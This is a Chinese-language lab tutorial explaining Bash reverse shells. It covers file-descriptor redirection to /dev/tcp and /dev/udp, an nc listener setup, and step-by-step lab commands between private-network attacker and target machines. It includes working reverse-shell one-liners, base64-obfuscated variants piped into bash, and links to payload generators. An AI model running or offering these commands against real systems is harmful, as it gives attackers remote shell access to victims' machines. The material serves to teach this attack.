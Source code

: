 # **Bash**介绍                                          [ ](af://n4)

Shell也称为终端或壳， 是人与内核之间的翻译官， 而Bash则是Linux中默认使用的Shell

Bash 反弹Shell的命令如下：

```
bash -i >&/dev/tcp/攻击机_IP/攻击机端口 0>&1
bash -i >&/dev/tcp/攻击机_IP/攻击机端口 0>&2
bash -i >&/dev/udp/攻击机_IP/攻击机端口 0>&1
bash -i >&/dev/udp/攻击机_IP/攻击机端口 0>&2

bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
nc -lvvp 9999
```

"`bash-i`"是指打开一个交互式的Shell。

"`&`"符号用于区分文件和文件描述符， 

"`>&`"符号后面跟文件时， 表示将标准输出和标准错误输出重定向至文件， ">&"符号后面跟数字时表示后面的数字是文件描述符， 不加"&"符号则会把后面的数字当成文件。

数字"`0`","`1`","`2`"是LinuxShell下的文件描述符，“0”是指标准输入重定向，“1”是指标准输出重定向，“2”是指错误输出 重定向。

"`/dev`"目录下"tcp"和"udp"是Linux中的特殊设备， 可用于建立Socket连接， 读写这俩文件就相当于是在Socket连 接中传输数据。

"`>&/dev/tcp/`攻击机_ip/攻击机端口"则表示将**标准输出和标准错误输出重定向**到"/dev/tcp/攻击机 ip/攻击机端口"文件中， 也就是重定向到了攻击机， 这时目标机的命令执行结果可以从攻击机看到。

"`0>&1`"或"`0>&2`"又将标准输入重定向到了标准输出， 而标准输出重定向到了攻击机， 因此标准输入也就重定 向到了攻击机， 从而可以通过攻击机输入命令， 并且可以看到命令执行结果输出

# 实验介绍                                          [ ](af://n16)

![img](https://img.gyxnb.top/img/clip_image001-168398343346065.jpg)

 

| 机器名称 | 机器**IP**              |
| -------- | ----------------------- |
| 攻击机器 | 192.168.3.27 (Windows)  |
| 实验靶机 | 192.168.41.135 ( Linux) |

## 1、攻击机器使用nc执行监听命令

```
nc -lvvp 9999   监听TCP  
nc -lup 9999    监听UDP  
```

![img](https://img.gyxnb.top/img/clip_image002.jpg)

## 2、实验靶机执行连接命令

[Runtime.exec Payload Generater | AresX's Blog (ares-x.com)](https://ares-x.com/tools/runtime-exec/)

[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

### tcp

```
nc -lvvp  9999
bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
 
https://ares-x.com/tools/runtime-exec/
bash base64:
YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=

bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'

bash -i >&/dev/tcp/192.168.70.7/9999 0>&1
```

### udp

```
nc -lup 9999
bash -i >&/dev/udp/192.168.70.7/9999 0>&1
bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdWRwLzE5Mi4xNjguNzAuNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'


bash -i >&/dev/udp/172.21.80.99/9999 0>&1
bash -c '{echo,YmFzaCAtaSA+Ji9kZXYvdWRwLzE3Mi4yMS44MC45OS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```

base64的编码差别是 udp的编码中的Rw 和 tcp的编码中的GN

![img](https://img.gyxnb.top/img/clip_image003-168398343346166.jpg)

## 3、查看结果

![img](https://img.gyxnb.top/img/clip_image005-168398343346167.gif)